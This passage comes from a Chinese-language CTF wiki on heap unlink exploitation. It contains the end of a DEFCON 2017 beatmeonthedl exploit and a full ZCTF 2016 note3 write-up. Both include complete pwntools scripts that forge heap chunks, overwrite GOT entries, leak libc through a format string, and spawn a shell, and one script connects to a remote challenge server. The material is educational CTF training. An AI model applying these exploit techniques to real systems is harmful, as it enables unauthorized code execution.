    # add bender again, fastbin 0x603138->NULL
    add(2, 1)

    # in order to malloc chunk at 0x603138
    # we need to bypass the fastbin size check, i.e. set *0x603140=0x20
    # it is at Robot Devil
    add(3, 0x20)

    # trigger malloc, set tinny point to 0x603148
    add(1)

    # wheels must <= 3
    remove(2)
    remove(3)

    print 'step 2'

    # alloc Destructor size 60->0x50, chunk content 0x40
    add(6, 3)

    # alloc devil, size=20*7=140, bigger than fastbin
    add(3, 7)

    # edit destructor's size to 1000 by tinny
    change(1, p64(1000))

    # place fake chunk at destructor's pointer
    fakechunk_addr = 0x6030E8
    fakechunk = p64(0) + p64(0x20) + p64(fakechunk_addr - 0x18) + p64(
        fakechunk_addr - 0x10) + p64(0x20)
    fakechunk = fakechunk.ljust(0x40, 'a')
    fakechunk += p64(0x40) + p64(0xa0)
    change(6, fakechunk)

    # trigger unlink
    remove(3)

    print 'step 3'

    # make 0x6030F8 point to 0x6030E8
    payload = p64(0) * 2 + 0x18 * 'a' + p64(0x6030E8)
    change(6, payload)

    print 'step 4'

    # make exit just as return
    write(robots.got['exit'], 0x401954)

    print 'step 5'

    # set wheel cnt =3, 0x603130 in order to start robot
    write(0x603130, 3)

    # set destructor point to puts@got
    change(1, p64(robots.got['puts']))
    start_robot()
    p.recvuntil('New hands great!! Thx ')
    puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    # make free->system
    write(robots.got['free'], system_addr)

    # make destructor point to /bin/sh addr
    write(0x6030E8, binsh_addr)

    # get shell
    remove(6)
    p.interactive()


if __name__ == "__main__":
    exp()

```

### 題目

- [DEFCON 2017 Qualifiers beatmeonthedl](https://github.com/Owlz/CTF/raw/master/2017/DEFCON/beatmeonthedl/beatmeonthedl)

### 參考

- malloc@angelboy
- https://gist.github.com/niklasb/074428333b817d2ecb63f7926074427a


## note3
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/ZCTF_2016_note3)

### 介紹

ZCTF 2016的一道題目，考點是safe unlink的利用。

### 題目介紹

題目是一個notepad，提供了創建、刪除、編輯、查看筆記的功能

```
1.New note
2.Show note
3.Edit note
4.Delete note
5.Quit
option--->>
```

保護如下所示

```
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

### 功能概述

程序New功能用來新建筆記，筆記的大小可以自定只要小於1024字節。

```
int new()
{
  puts("Input the length of the note content:(less than 1024)");
  size = get_num();
  if ( size < 0 )
    return puts("Length error");
  if ( size > 1024 )
    return puts("Content is too long");
  heap_ptr = malloc(size);
  puts("Input the note content:");
  my_read(heap_ptr, size, '\n');
  bss_ptr[i] = heap_ptr;
  current_ptr[i + 8LL] = size;
  current_ptr[0] = bss_ptr[i];
  return printf("note add success, the id is %d\n", i);
}
```

所有的筆記malloc出來的指針存放在bss上全局數組bss_ptr中，這個數組最多可以存放8個heap_ptr。
而且heap_ptr對應的size也被放在bss_ptr數組中。current_ptr表示當前筆記，bss佈局如下。

```
.bss:
current_ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```

Show功能是無用的功能，edit和delete可以編輯和釋放note。

### 漏洞

漏洞存在於edit功能中，這裏面在獲取用戶輸入的id號之後並沒有進行驗證。如果輸入的id是負數的話依然可以執行。
在get_num函數中存在整數溢出漏洞，我們可以獲得一個負數。

```
int edit()
{

  id = get_num();
  data_ptr = ptr[id];
  if ( data_ptr )
  {
    puts("Input the new content:");
    my_read(ptr[id], current_ptr[id + 8], '\n');
    current_ptr[0] = ptr[id];
    data_ptr = puts("Edit success");
  }
}
```

因此我們可以使得edit讀入cuurent_ptr，使用的size是note7_ptr
```
.bss:
current_ptr <== edit ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr   <== size
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```
首先創建8個note，然後edit note3使current_ptr指向note3，之後使用-1溢出note3
```
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')

edit(3,'a')
edit(-9223372036854775808,data);
```

我們使用的溢出數據是用於構造一個fake chunk來實現safe unlink的利用，具體的原理可以看這一章節的講解。

```
data = ''
data += p64(0) + p64(512+1) #fake chunk header
data += p64(0x6020e0-0x18) + p64(0x6020e0-0x10) #fake fd and bk
data += 'A'*(512-32)
data += p64(512) + p64(512+16)
```

之後釋放note4，note3與note4就會合並。note3_ptr會指向note0_ptr的位置。這樣我們通過不斷的修改note0_ptr的值和edit note0就可以實現任意地址寫數據。

但是題目沒有提供show功能，所以無法進行任意地址讀，也就無法泄漏數據。
這裏採用的辦法是把free的got表改爲printf的值，然後在bbs中一塊空白的區域寫入"%x"。
這樣當free這塊區域（這塊區域在ptr_array中，所以可以直接傳遞給free），就可以泄漏出棧中的數據。
通過棧中的libc地址求出system的地址就可以利用任意地址寫獲得shell

```
free(4)

edit(3,free_got)
edit(0,printf_plt)

edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
```
完成的exp如下

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
def malloc(size,data):
    print conn.recvuntil('>>')
    conn.sendline('1')
    print conn.recvuntil('1024)')
    conn.sendline(str(size))
    print conn.recvuntil('content:')
    conn.sendline(data)
    print conn.recvuntil('\n')
def edit(id,data):
    print conn.recvuntil('>>')
    conn.sendline('3')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('ent:')
    conn.sendline(data)
    print conn.recvuntil('success')
def free(id):
    print conn.recvuntil('>>')
    conn.sendline('4')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('success')

conn = remote('115.28.27.103',9003)
free_got = p64(0x602018)
puts_got = p64(0x602020)
stack_got = p64(0x602038)
printf_got = p64(0x602030)
exit_got = p64(0x602078)
printf_plt = p64(0x400750)
puts_plt = p64(0x400730)

#libcstartmain_ret_off = 0x21b45
#sys_off = 0x414f0

libcstartmain_ret_off = 0x21ec5
sys_off = 0x46640

# 1. int overflow lead to double free
intoverflow = -9223372036854775808
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,p64(0x400ef8))
malloc(512,'/bin/sh\0')

# 2. make a fake chunk and modify the next chunk's pre size
fakechunk = p64(0) + p64(512+1) + p64(0x6020e0-0x18) + p64(0x6020e0-0x10) + 'A'*(512-32) + p64(512) + p64(512+16)
edit(3,'aaaaaa')
edit(intoverflow,fakechunk)

# 3. double free
free(4)

# 4. overwrite got
edit(3,free_got)
edit(0,printf_plt+printf_plt)

# 5. leak the stack data
edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)

# free->puts
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))

ret =  conn.recvuntil('success')
print ret

# 6. calcuate the system's addr
libcstart = ret.split('.')[10]
libcstart_2 = int(libcstart,16) - libcstartmain_ret_off
print 'libc start addr:',hex(libcstart_2)
system_addr = libcstart_2 + sys_off
print 'system_addr:',hex(system_addr)

# 7. overwrite free's got
edit(3,free_got)
edit(0,p64(system_addr)+printf_plt)

# 8. write argv
edit(3,p64(0x6020d0))
edit(0,'/bin/sh\0')

# 9. exploit
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))
sleep(0.2)
conn.interactive()
```
